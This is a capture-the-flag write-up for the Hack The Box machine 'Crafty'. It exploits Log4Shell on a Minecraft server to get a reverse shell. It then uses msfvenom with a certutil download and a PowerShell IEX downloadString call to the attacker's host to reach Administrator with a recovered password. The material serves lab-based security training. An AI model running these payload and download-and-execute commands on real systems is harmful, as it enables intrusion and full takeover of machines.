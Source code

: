 # Crafty Writeup
<figure><img src="../src/Crafty/banner.png"></figure>

Nmap Scan:
```
┌──(kali㉿kali)-[~/Desktop/htb/crafty]
└─$ nmap -sC -sV -vv 10.10.11.249  
PORT      STATE SERVICE   REASON  VERSION
80/tcp    open  http      syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Crafty - Official Website
25565/tcp open  minecraft syn-ack Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Adding `crafty.htb` to `/etc/hosts`.

On loadaing the website we can see the homepage.

<figure><img src="../src/Crafty/home.png"></figure>

## User Flag

With a little bit of research. I found a log4j vulnerability to be present for minecraft on port 25565.

I found the 
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc.git)

I cloned the repository and made a few changes to the poc.py.

<figure><img src="../src/Crafty/log4j.png"></figure>

I changed the `String cmd` to `'cmd.exe'` since we are dealing with a Windows Machine.

I got the listener up and running.

<figure><img src="../src/Crafty/listener.png"></figure>

I also cloned another Minecraft-Client library called `pyCraft`.
[pyCraft](https://github.com/ammaraskar/pyCraft)

I started another listener to catch the reverse shell.

```
rlwrap nc -lvnp 4444
```
<figure><img src="../src/Crafty/shell.png"></figure>

And I finally caught the shell and got the user flag.

<figure><img src="../src/Crafty/user.png"></figure>

## Root Flag

I get a stable shell using `msfvenom`.

```
# Kali Machine
$ sudo msfvenom -p windows/x64/meterpreter/reverse_tcp -o shell.exe -f exe LHOST=10.10.16.6 LPORT=3333

# Windows Machine
$ certutil -urlcache -f http://10.10.16.6:123/shell.exe shell.exe
```

Now, I download the `playercounter-1.0-SNAPSHOT.jar` and analyze the file to find credentials.

<figure><img src="../src/Crafty/jar.png"></figure>

Running the following commands with the variables would work to get access.

I saved a normal powershell reverse shell script as `rev.ps1`.
<figure><img src="../src/Crafty/rooted.png"></figure>

And Ran it in the target machine to get access.

```
$SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6:9999/rev.ps1')" -Credential $cred
```

<figure><img src="../src/Crafty/rooted.png"></figure>

And the machine is rooted.

Thank you!!! Happy Hacking :D